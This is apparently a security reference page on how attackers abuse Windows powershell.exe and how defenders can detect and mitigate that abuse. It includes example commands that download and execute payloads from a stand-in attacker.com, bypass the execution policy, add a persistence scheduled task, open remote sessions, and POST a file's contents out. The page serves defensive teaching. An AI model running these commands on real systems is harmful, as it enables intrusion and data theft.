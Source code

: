 # powershell.exe
## What is it?
*```powershell.exe``` is a Windows command-line shell and scripting language designed for system administration, automation, and configuration management.*
*It allows users to run scripts, execute commands, and manage system settings by providing access to the .NET framework and Windows Management Instrumentation (WMI).*
*PowerShell is widely used for legitimate administrative tasks but can also be misused for malicious purposes due to its powerful capabilities.*

## Legitimate Usage
- **System Administration** → Automate administrative tasks such as user management, system configuration, and software installation.
- **Task Automation** → Run scripts to automate repetitive tasks, such as system updates or report generation.
- **Configuration Management** → Administer and configure servers, applications, and other resources across a network.
- **Remote Management** → Use PowerShell Remoting to manage multiple systems remotely (via `Invoke-Command`, `Enter-PSSession`).

## How to abuse it
- **Execution of Malicious Scripts** → Attackers can use ```powershell.exe``` to run malicious scripts, including PowerShell-based payloads and exploits.
- **Bypassing Execution Policies** → PowerShell’s script execution policies can be bypassed (e.g., using `-ExecutionPolicy Bypass`) to run unsigned scripts on a system.
- **Privilege Escalation** → PowerShell can be used to escalate privileges by executing malicious code or exploiting vulnerabilities in the system.
- **Persistence Mechanism** → Attackers can use PowerShell scripts to maintain persistence by creating scheduled tasks or modifying startup entries.
- **Data Exfiltration** → PowerShell can be used to send stolen data over the network via HTTP, HTTPS, or SMB.

## Example attacks
### 1. Downloading and Executing a Malicious Payload
*Attackers can use ```powershell.exe``` to download and execute malicious payloads from a remote server.*

**Download and Execute PowerShell Script**

```
powershell.exe -NoProfile -ExecutionPolicy Bypass -Command "Invoke-WebRequest -Uri http://attacker.com/payload.ps1 -OutFile C:\temp\payload.ps1; C:\temp\payload.ps1"
```

**Effect:**
- Downloads the malicious PowerShell script from a remote server.
- Executes the script locally, potentially allowing the attacker to run commands or install malware.

### 2. Bypassing Execution Policies
*PowerShell’s execution policies can be bypassed using the `-ExecutionPolicy Bypass` flag to run unsigned scripts.*

**Bypass Execution Policy**

```
powershell.exe -ExecutionPolicy Bypass -Command "Invoke-WebRequest http://attacker.com/malicious.ps1 -OutFile C:\malicious.ps1; C:\malicious.ps1"
```

**Effect:**
- Allows the execution of unsigned PowerShell scripts, which would normally be blocked by default execution policies.

### 3. Persistence via Scheduled Task
*Attackers can create a scheduled task using PowerShell to run malicious scripts on a regular basis, ensuring persistence.*

**Create Scheduled Task for PowerShell Script Execution**

```
powershell.exe -Command "New-ScheduledTaskTrigger -AtStartup | New-ScheduledTaskAction -Execute 'powershell.exe' -Argument '-ExecutionPolicy Bypass -File C:\malicious.ps1' | Register-ScheduledTask -TaskName 'MaliciousTask'"
```

**Effect:**
- The task runs at system startup, ensuring the malicious script is executed every time the machine reboots.

### 4. Lateral Movement via PowerShell Remoting
*PowerShell Remoting allows attackers to run commands on remote systems and move laterally across the network.*

**Execute PowerShell Remotely on a Target System**

```
powershell.exe -Command "Enter-PSSession -ComputerName 192.168.1.100 -Credential (Get-Credential)"
```

**Effect:**
- Establishes a remote session on the target system to execute commands, exfiltrate data, or deploy malware.

### 5. Data Exfiltration Using PowerShell
*Attackers can use PowerShell to exfiltrate stolen data to a remote server.*

**Send Data to an Attacker-Controlled Server**

```
powershell.exe -Command "Invoke-WebRequest -Uri http://attacker.com/exfiltrate -Method POST -Body (Get-Content C:\SensitiveData.txt -Raw)"
```

**Effect:**
- Steals data from the system and sends it to a remote server controlled by the attacker.

# Detection & Mitigation
## Detection Methods
**Monitor PowerShell Execution**
- **Event ID 4688 (Process Creation)** → Detect when ```powershell.exe``` is executed, especially with suspicious arguments like `-ExecutionPolicy Bypass` or from unusual paths.
- **Monitor PowerShell Remoting** → Track usage of commands such as `Enter-PSSession` or `Invoke-Command`, which can be used for lateral movement.

**Analyze PowerShell Logs**
- **PowerShell Script Block Logging** → Enable PowerShell script block logging to capture the execution of potentially malicious scripts.
- **Event ID 4104 (PowerShell Script Execution)** → Monitor for PowerShell script execution that may not align with standard user behavior.

**Monitor Network Traffic**
- **Look for Unusual Network Connections** → Detect outbound connections to suspicious IP addresses, especially when PowerShell is used to exfiltrate data.

## Mitigation Strategies
- **Restrict PowerShell Access** → Use Group Policy to restrict access to PowerShell or block PowerShell execution altogether.
- **Use Application Whitelisting** → Implement application whitelisting tools like AppLocker or Device Guard to prevent unauthorized PowerShell scripts from running.
- **Implement Endpoint Protection** → Use endpoint protection tools to detect malicious PowerShell activity, such as known attack scripts or abnormal command usage.
- **PowerShell Constrained Language Mode** → Enable Constrained Language Mode to limit the capabilities of PowerShell on devices where it’s necessary.
- **Network Traffic Filtering** → Implement network traffic filtering to prevent unauthorized connections initiated by PowerShell scripts.
